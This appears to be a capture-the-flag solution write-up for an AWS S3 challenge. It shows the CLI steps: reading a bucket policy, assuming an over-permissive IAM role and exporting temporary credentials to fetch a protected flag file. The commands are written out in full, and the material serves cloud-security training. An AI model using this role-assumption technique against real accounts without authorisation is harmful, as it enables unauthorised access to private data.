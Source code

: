 # solution

- create a profile for the mrbuttons credentials (optional, could also set ENV vars)
  ```
  aws configure --profile mrbuttons
  ```

- list files
  `aws --profile mrbuttons s3 ls s3://cats-in-a-bucket`

- download files -> access denied for the one with the flag
  `aws --profile mrbuttons s3 cp s3://cats-in-a-bucket/cat1.jpg .`-> OK
  `aws --profile mrbuttons s3 cp s3://cats-in-a-bucket/cat2.jpg .`-> OK
  `aws --profile mrbuttons s3 cp s3://cats-in-a-bucket/cat3.jpg .`-> OK
  `aws --profile mrbuttons s3 cp s3://cats-in-a-bucket/cat4.jpg .`-> Access Denied

- hint about checking permissions -> get bucket policy
  ```
  aws --profile=mrbuttons s3api get-bucket-policy --bucket cats-in-a-bucket
  {
    "Policy": "{\"Version\":\"2008-10-17\",\"Statement\":[{\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::261640479576:user/misterbuttons\"},\"Action\":[\"s3:ListBucket\",\"s3:GetBucketPolicy\"],\"Resource\":\"arn:aws:s3:::cats-in-a-bucket\"},{\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::261640479576:user/misterbuttons\"},\"Action\":\"s3:GetObject\",\"Resource\":[\"arn:aws:s3:::cats-in-a-bucket/cat1.jpg\",\"arn:aws:s3:::cats-in-a-bucket/cat2.jpg\",\"arn:aws:s3:::cats-in-a-bucket/cat3.jpg\"]},{\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::261640479576:role/captainclaw\"},\"Action\":\"s3:ListBucket\",\"Resource\":\"arn:aws:s3:::cats-in-a-bucket\"},{\"Effect\":\"Allow\",\"Principal\":{\"AWS\":\"arn:aws:iam::261640479576:role/captainclaw\"},\"Action\":\"s3:GetObject\",\"Resource\":\"arn:aws:s3:::cats-in-a-bucket/cat4.jpg\"}]}"
  }
  ```

- role: `arn:aws:iam::261640479576:role/captainclaw`

- assume role
  ```
  aws --profile=mrbuttons sts assume-role --role-arn arn:aws:iam::261640479576:role/captainclaw --role-session-name captainclaw
  {
      "Credentials": {
        "AccessKeyId": "[...]",
        "SecretAccessKey": "[...]",
        "SessionToken": "[...]",
        "Expiration": "2022-10-09T16:46:29+00:00"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROATZ2X44NMIIMXFXIG7:captainclaw",
        "Arn": "arn:aws:sts::261640479576:assumed-role/captainclaw/captainclaw"
    }
  }

  export AWS_ACCESS_KEY_ID="[...VALUE_FROM_ABOVE...]"
  export AWS_SECRET_ACCESS_KEY="[...VALUE_FROM_ABOVE...]"
  export AWS_SESSION_TOKEN="[...VALUE_FROM_ABOVE...]"
  ```

- copy flag file -> without setting profile, using env vars of temp credentials here
  `aws s3 cp s3://cats-in-a-bucket/cat4.jpg .`


# creation
- run CloudFormation template (`cf-stack.yml`)
- updload cat1-cat4.jpg to bucket cats-in-a-bucket (root folder)
